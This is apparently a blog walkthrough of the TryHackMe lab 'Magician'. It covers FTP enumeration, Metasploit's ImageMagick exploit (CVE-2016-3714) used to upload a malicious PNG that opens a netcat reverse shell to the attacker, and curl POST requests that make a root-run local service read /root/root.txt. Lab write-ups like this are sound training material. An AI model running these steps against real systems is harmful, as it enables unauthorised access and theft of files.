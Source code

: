 ```yaml
---
title:  "Magician - TryHackMe"
style: fill
color: secondary
tags: [TryHackMe, Walkthrough, CVE , Curl]
permalink: /blog/thm/magician
description: This is a easy to medium room from TryHackMe which requires a lot of patience and try hard attitude.
---
```


Created by [M0N573R777](https://tryhackme.com/p/M0N573R777) and [ripcurlz](https://tryhackme.com/p/ripcurlz). Access the room [here](https://tryhackme.com/room/magician).

![]({{ "/assets/images/thm/magician/banner.png" | relative_url }})

> Note: Please add the IP address of this machine with the hostname "magician" to your /etc/hosts file on Linux before you start.
> On Windows, the hosts file should be at C:\\Windows\\System32\\drivers\\etc\\hosts.
> Use the hostname instead of the IP address if you want to upload a file. This is required for the room to work correctly ;)

## Overview:
This is a easy to medium room from TryHackMe which requires a lot of patience and try hard attitude. 

## Enumeration:

Starting with nmap scan...

```sh
nmap -sV -p- -v -oN nmap.initial 10.10.91.30
```
![]({{ "/assets/images/thm/magician/nmap.png" | relative_url }})

We get ports 21, 8080, 8081 open.
The webpage at port 8081 looks like this. It contains file upload functionality.
<br>
![]({{ "/assets/images/thm/magician/magician8081.png" | relative_url }})

We can login to FTP anonymously. Wait for few seconds after entering the credentials to get the response as the 'delay_successful_login' is enabled.
```sh
┌──(root💀kali)-[~/TryHackMe/Magician]
└─# ftp 10.10.91.30
Connected to 10.10.91.30.
220 THE MAGIC DOOR
Name (10.10.91.30:root): Anonymous
331 Please specify the password.
Password:
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.
```
This is the message we get when we login to FTP anonymously.
>230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...

We get a link to CVE-2016-3714. I tried creating a exploit using the technique shown on the website but didn't succeed. Later I found out that there is a metasploit module for this exploit which create a .png file for us.

Module: exploit/unix/fileformat/imagemagick_delegate

```sh
msf6 > use exploit/unix/fileformat/imagemagick_delegate
msf6 exploit(unix/fileformat/imagemagick_delegate) > set target 1
# Set your LHOST
msf6 exploit(unix/fileformat/imagemagick_delegate) > set LHOST 10.10.10.10
# You can set a different FILENAME if you want
msf6 exploit(unix/fileformat/imagemagick_delegate) > run

[+] msf.png stored at /root/.msf4/local/msf.png

```
A file is created. This is the file you have to upload.
## Gaining Foothold:
Before uploading, start the multi handler with **cmd/unix/reverse_netcat** payload and set LHOST and LPORT same as when you generated the .png file.
Upload the file and submit and you will have your reverse_shell.

![]({{ "/assets/images/thm/magician/revshell.png" | relative_url }})

Upgrade your shell which "**base -i**" command and get the user flag in the users directory

![]({{ "/assets/images/thm/magician/userflag.png" | relative_url }})
## Privilege Escalation:
Start the enumeration for privilege escalation. In the user's directory you will get a file **the_magic_continues**.
```
magician@magician:~$ cat the_magic_continues
cat the_magic_continues
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```

Maybe there is a service listening locally but is not available for outside.
```sh
netstat -tulpn
```
![]({{ "/assets/images/thm/magician/netstat.png" | relative_url }})

There is a service listening on port 6666. Let's list out the processes running as root.

![]({{ "/assets/images/thm/magician/ps.png" | relative_url }})

We can see that there is a gunicorn webapp running on port 6666.
Using curl we can see the contents of the webpage. There is a POST form on the webpage which accepts a filename.
```
curl http://127.0.0.1:6666/
```
![]({{ "/assets/images/thm/magician/form.png" | relative_url }})

We will try to send a post request using curl and see if we are able to get back the response. 
```sh
curl -X POST http://127.0.0.1:6666/ -d "filename=/home/magician/user.txt"
```

![]({{ "/assets/images/thm/magician/base64user.png" | relative_url }})

![]({{ "/assets/images/thm/magician/base64userflag.png" | relative_url }})

We get a base64 encoded string and it is indeed our user flag as we tried to retrieve it. As the service is running as root, we can get the root flag as well.
```sh
curl -X POST http://127.0.0.1:6666/ -d "filename=/root/root.txt"
```
![]({{ "/assets/images/thm/magician/base64.png" | relative_url }})

![]({{ "/assets/images/thm/magician/rootflag.png" | relative_url }})

Yes, we do get the root flag.
That's it for this room. I couldn't get the root shell on this machine. Maybe this is how it works. You can also Port Forward the port 6666 to your attacker machine and access the webpage in the browser.

## Thank-you!!

Do follow me on socials below for stay connected for these kind of writeups/walkthroughs/blogs.